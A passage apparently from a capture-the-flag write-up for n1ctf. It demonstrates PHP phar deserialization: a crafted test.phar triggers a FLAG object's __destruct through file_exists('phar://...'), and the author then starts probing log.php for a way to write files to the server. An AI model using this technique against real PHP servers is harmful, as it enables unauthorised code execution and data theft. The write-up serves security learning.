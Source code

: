 ```
?>
```

We can now run:

`php create_phar.php`


This will create a file called `test.phar`.

If I open test.phar in Visual Studio Code, it noticed it is a binary file but I tell it to open it anyway, I see this:

![](media/test.phar.png)


Now lets test it by creating a tester php program where we purposefully include a copy of their FLAG class code:

[test_phar.php]
```
<?php 
CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}

file_exists('phar://test.phar');

?>
```

We can test it by running:

`php test_phar.php`

When I do this, it ends up instantiating a FLAG object and soon after runs the `__destruct()` method printing:

`FLAG: n1ctf{************************}`


Can we create files on the server?

If we were able to upload our test.phar file to their server, we'd be able to then easily get the flag.

However, our ability to create files on the server is limited.

Let's study `log.php` a bit more.

We see it will first create a directory (if needed) using this logic:
```
$real_ip = $_SERVER['REMOTE_ADDR'];
$log_ip_dir = ROOT_PATH . '/log/' . $real_ip;
```
